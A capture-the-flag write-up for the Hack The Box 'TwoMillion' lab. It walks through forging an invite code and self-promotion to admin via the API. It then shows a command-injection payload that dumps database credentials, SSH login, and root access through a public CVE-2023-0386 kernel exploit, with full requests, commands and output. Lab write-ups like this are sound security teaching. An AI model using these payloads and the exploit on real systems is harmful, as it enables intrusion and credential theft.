

Start with a nmap scan:

```sh
$ sudo nmap -sV -sC -Pn -p- -A 10.129.3.201 -oN cap.nmap
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-26 12:27 EDT

                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/easy-twomillion]
└─$ sudo nmap -sV -sC -Pn -p- -A 10.129.3.201 -oN twomillion.nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-26 12:27 EDT
Nmap scan report for 10.129.3.201
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   116.74 ms 10.10.16.1
2   58.79 ms  10.129.3.201

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 493.76 seconds
```

From the nmap scan we can infer that:
- Host is a Linux machine
- Nginx web server running on port 80
- SSH open on port 22

Use AI to unpack and deobfuscate the http://2million.htb/js/inviteapi.min.js code:

```js
function verifyInviteCode(code) {
    var formData = {"code": code};
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```


Run makeInviteCode() in the console:
```
POST /api/v1/invite/how/to/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Origin: http://2million.htb
Connection: keep-alive
Referer: http://2million.htb/invite
Cookie: PHPSESSID=3be82lsc6kucgu87j8slborv7v
Content-Length: 0
```

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 May 2026 16:56:11 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 249


{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

ROT13 decrypt the message we got:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Follow the instruction, send a POST request to `/api/v1/invite/generate`, we get back the invitation code:
```
POST /api/v1/invite/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
X-Requested-With: XMLHttpRequest
Referer: http://2million.htb/invite
Cookie: PHPSESSID=3be82lsc6kucgu87j8slborv7v
Content-Length: 0
```

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 26 May 2026 16:57:35 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 91

{"0":200,"success":1,"data":{"code":"NDYzT1gtWjhQR1EtOUpRTUgtREdRNVc=","format":"encoded"}}
```

Found the hidden `/register` path, read the HTML form to identify the POST request parameters and send it with the base64 decoded version of the code we obtained:

```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://2million.htb
Referer: http://2million.htb/register?code=abc
Cookie: PHPSESSID=3be82lsc6kucgu87j8slborv7v

code=463OX-Z8PGQ-9JQMH-DGQ5W&username=admin&email=admin%40gmail.com&password=123&password_confirmation=123
```

Now login with the newly created account `admin@gmail.com`:`123` to access the dashboard:



Found hidden API endpoints when sending a GET request to 
http://2million.htb/api/v1:

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Send this PUT request to upgrade ourself to admin:

```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Cookie: PHPSESSID=3be82lsc6kucgu87j8slborv7v
Content-Type: application/json
Content-Length: 42

{"email":"admin@gmail.com","is_admin":1}
```

Found this endpoint, containing a command injection vulnerability:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Cookie: PHPSESSID=3be82lsc6kucgu87j8slborv7v
Content-Type: application/json
Content-Length: 30

{"username":"admin;cat .env;"}
```

```
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 28 May 2026 15:40:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 87

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

SSH to the target with credential `admin`:`SuperDuperPass123` and read the user flag:

```
$ ssh admin@10.129.229.66
admin@10.129.229.66's password: SuperDuperPass123
admin@2million:~$ cat user.txt
84f96132b5e3f27693ac780eec360c23
```

Found this email suggesting a vulnerability exists in this Linux kernel version:

```
admin@2million:/var/spool/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

This suggest we use this [exploit for CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386). At host, clone the repo and zip to transfer to the target machine:

```sh
$ git clone --depth 1 https://github.com/xkaneiki/CVE-2023-0386
$ zip -r cve.zip CVE-2023-0386    
$ scp cve.zip admin@10.129.4.249:/tmp  
```

At the target machine, unzip it and build it:

```sh
$ cd /tmp
$ unzip cve.zip
$ cd CVE-2023-0386
$ make all
```

After build run this 2 commands, the first one runs in background, the second one will give us root access and read the flag:

```
$ ./fuse ./ovlcap/lower ./gc
Ctrl+Z
$ bg
$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 May 28 16:37 .
drwxrwxr-x 6 root   root     4096 May 28 16:37 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# cat /root/root.txt 
114429db4b56879b9c687607637d9f14
```

